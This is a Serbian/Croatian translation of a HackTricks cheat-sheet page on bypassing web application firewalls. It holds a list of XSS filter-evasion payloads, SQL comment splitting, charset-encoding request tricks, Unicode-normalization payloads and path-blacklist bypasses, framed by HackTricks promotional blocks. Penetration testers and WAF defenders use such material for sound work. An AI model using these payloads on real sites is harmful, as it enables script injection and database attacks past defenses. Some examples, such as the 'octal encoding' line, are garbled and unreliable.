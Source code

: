 # Bypassovanje WAF-a

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Bypassovanje Regex-a

Različite tehnike se mogu koristiti za zaobilaženje regex filtera na firewall-ima. Primeri uključuju smenjivanje velikih i malih slova, dodavanje preloma linije i enkodiranje payload-a. Resursi za različite načine zaobilaženja se mogu pronaći na [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#filter-bypass-and-exotic-payloads) i [OWASP](https://cheatsheetseries.owasp.org/cheatsheets/XSS\_Filter\_Evasion\_Cheat\_Sheet.html). Primeri ispod su preuzeti iz [ovog članka](https://medium.com/@allypetitt/5-ways-i-bypassed-your-web-application-firewall-waf-43852a43a1c2).
```bash
<sCrIpT>alert(XSS)</sCriPt> #changing the case of the tag
<<script>alert(XSS)</script> #prepending an additional "<"
<script>alert(XSS) // #removing the closing tag
<script>alert`XSS`</script> #using backticks instead of parenetheses
java%0ascript:alert(1) #using encoded newline characters
<iframe src=http://malicous.com < #double open angle brackets
<STYLE>.classname{background-image:url("javascript:alert(XSS)");}</STYLE> #uncommon tags
<img/src=1/onerror=alert(0)> #bypass space filter by using / where a space is expected
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaaa href=javascript:alert(1)>xss</a> #extra characters
Function("ale"+"rt(1)")(); #using uncommon functions besides alert, console.log, and prompt
javascript:74163166147401571561541571411447514115414516216450615176 #octal encoding
<iframe src="javascript:alert(`xss`)"> #unicode encoding
/?id=1+un/**/ion+sel/**/ect+1,2,3-- #using comments in SQL query to break up statement
new Function`alt\`6\``; #using backticks instead of parentheses
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+ #base64 encoding the javascript
%26%2397;lert(1) #using HTML encoding
<a src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm(XSS)"> #Using Line Feed (LF) line breaks
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=confirm()> # use any chars that aren't letters, numbers, or encapsulation chars between event handler and equal sign (only works on Gecko engine)
```
## Kodiranje karaktera

Kodiranje karaktera je proces pretvaranja znakova u odgovarajuće binarne reprezentacije. U kontekstu zaobilaženja WAF-a, možete iskoristiti različite kodne skupove kako biste zaobišli detekciju WAF-a.

### URL kodiranje

URL kodiranje se koristi za pretvaranje specijalnih znakova u njihove ekvivalentne heksadecimalne vrednosti. Na taj način, znakovi koji bi mogli biti blokirani ili filtrirani od strane WAF-a mogu proći neprimećeno.

Primjer:

Originalni URL: `http://www.example.com/page?param=value`

URL kodiranje: `http%3A%2F%2Fwww.example.com%2Fpage%3Fparam%3Dvalue`

### HTML kodiranje

HTML kodiranje se koristi za pretvaranje specijalnih znakova u njihove ekvivalentne HTML entitete. Ovo može biti korisno za zaobilaženje WAF-a koji filtrira HTML oznake ili specifične znakove.

Primjer:

Originalni tekst: `<script>alert('XSS')</script>`

HTML kodiranje: `&lt;script&gt;alert(&#39;XSS&#39;)&lt;/script&gt;`

### Unicode kodiranje

Unicode kodiranje se koristi za pretvaranje znakova u njihove ekvivalentne Unicode vrednosti. Ovo može biti korisno za zaobilaženje WAF-a koji filtrira specifične znakove ili kodne skupove.

Primjer:

Originalni tekst: `SELECT * FROM users WHERE username = 'admin'`

Unicode kodiranje: `SELECT * FROM users WHERE username = '\u0061\u0064\u006d\u0069\u006e'`

### Punycode kodiranje

Punycode kodiranje se koristi za pretvaranje domena koji sadrže Unicode znakove u ASCII reprezentaciju. Ovo može biti korisno za zaobilaženje WAF-a koji blokira ili filtrira domene sa specifičnim znakovima.

Primjer:

Originalni domen: `http://www.éxample.com`

Punycode kodiranje: `http://www.xn--xample-9uf.com`
```bash
# Charset encoding
application/x-www-form-urlencoded;charset=ibm037
multipart/form-data; charset=ibm037,boundary=blah
multipart/form-data; boundary=blah; charset=ibm037

##Python code
import urllib
s = 'payload'
print(urllib.parse.quote_plus(s.encode("IBM037")))

## Request example
GET / HTTP/1.1
Host: buggy
Content-Type: application/x-www-form-urlencoded; charset=ibm500
Content-Length: 61

%86%89%93%85%95%81%94%85=KKaKKa%C6%D3%C1%C7K%A3%A7%A3&x=L%A7n
```
## Obfuskacija

Obfuskacija je tehnika koja se koristi za prikrivanje ili zamagljivanje stvarnog koda ili podataka kako bi se izbjeglo otkrivanje ili detekcija. Ova tehnika se često koristi za zaobilaženje Web Application Firewall (WAF) sistema.

### Tehnike obfuskacije

1. **Minifikacija**: Minifikacija je proces smanjivanja veličine koda uklanjanjem nepotrebnih znakova, razmaka i komentara. Ovo čini kod manje čitljivim i teže razumljivim za ljude, ali ne utječe na funkcionalnost koda.

2. **Enkripcija**: Enkripcija se koristi za pretvaranje čitljivog koda u nečitljivi oblik pomoću algoritama enkripcije. Ovaj oblik koda se zatim dekriptira na ciljnom serveru prije izvršavanja.

3. **Polimorfizam**: Polimorfizam je tehnika koja mijenja oblik koda tako da svaka instanca izgleda drugačije, ali ima istu funkcionalnost. Ovo otežava detekciju i analizu koda.

4. **Steganografija**: Steganografija je tehnika skrivanja podataka unutar drugih podataka, kao što su slike ili zvukovi. U kontekstu obfuskacije, ova tehnika se koristi za skrivanje zlonamjernog koda unutar legitimnih datoteka.

### Bypassing WAF putem obfuskacije

Korištenje obfuskacije može biti korisno za zaobilaženje WAF sistema. Evo nekoliko tehnika koje se mogu koristiti:

1. **Obfuskacija URL-a**: Promjena URL-a tako da se izbjegne detekcija WAF-a. Ovo se može postići dodavanjem slučajnih znakova, enkodiranjem URL-a ili korištenjem kratkih URL-ova.

2. **Obfuskacija parametara**: Enkodiranje ili enkripcija parametara kako bi se izbjeglo otkrivanje zlonamjernih aktivnosti.

3. **Obfuskacija HTTP zaglavlja**: Promjena ili dodavanje dodatnih zaglavlja kako bi se izbjegla detekcija WAF-a.

4. **Obfuskacija HTTP tijela**: Enkodiranje ili enkripcija HTTP tijela kako bi se izbjeglo otkrivanje zlonamjernog sadržaja.

Važno je napomenuti da obfuskacija nije uvijek 100% efikasna i da se WAF sistemi stalno razvijaju kako bi prepoznali nove tehnike obfuskacije. Stoga je važno redovito ažurirati svoje tehnike i pratiti najnovije razvoje u oblasti WAF-a.
```bash
# IIS, ASP Clasic
<%s%cr%u0131pt> == <script>

# Path blacklist bypass - Tomcat
/path1/path2/ == ;/path1;foo/path2;bar/;
```
## Unicode kompatibilnost

Zavisno od implementacije normalizacije Unicode-a (više informacija [ovde](https://jlajara.gitlab.io/Bypass\_WAF\_Unicode)), karakteri koji dele Unicode kompatibilnost mogu zaobići WAF i izvršiti se kao namereni payload. Kompatibilni karakteri se mogu pronaći [ovde](https://www.compart.com/en/unicode)

### Primer
```bash
# under the NFKD normalization algorithm, the characters on the left translate
# to the XSS payload on the right
＜img src⁼p onerror⁼＇prompt⁽1⁾＇﹥  --> ＜img src=p onerror='prompt(1)'>
```
## Превазилажење ограничења величине

Уобичајено је у WAF-овим базираним на облаку да ако је полезност већа од X величине, захтев неће бити проверен од стране WAF-а. Можете једноставно користити то да их превазиђете.

### Ротација IP адреса

* [https://github.com/rootcathacking/catspin](https://github.com/rootcathacking/catspin)

<details>

<summary><strong>Научите хаковање AWS-а од нуле до хероја са</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Други начини да подржите HackTricks:

* Ако желите да видите своју **компанију рекламирану на HackTricks** или **преузмете HackTricks у PDF формату** Проверите [**ПРЕТПЛАТНЕ ПЛАНОВЕ**](https://github.com/sponsors/carlospolop)!
* Набавите [**званични PEASS & HackTricks сувенир**](https://peass.creator-spring.com)
* Откријте [**The PEASS Family**](https://opensea.io/collection/the-peass-family), нашу колекцију ексклузивних [**NFT-ова**](https://opensea.io/collection/the-peass-family)
* **Придружите се** 💬 [**Discord групи**](https://discord.gg/hRep4RUj7f) или [**телеграм групи**](https://t.me/peass) или **пратите** нас на **Twitter-у** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Поделите своје хакерске трикове слањем PR-ова на** [**HackTricks**](https://github.com/carlospolop/hacktricks) и [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github репозиторијуме.

</details>
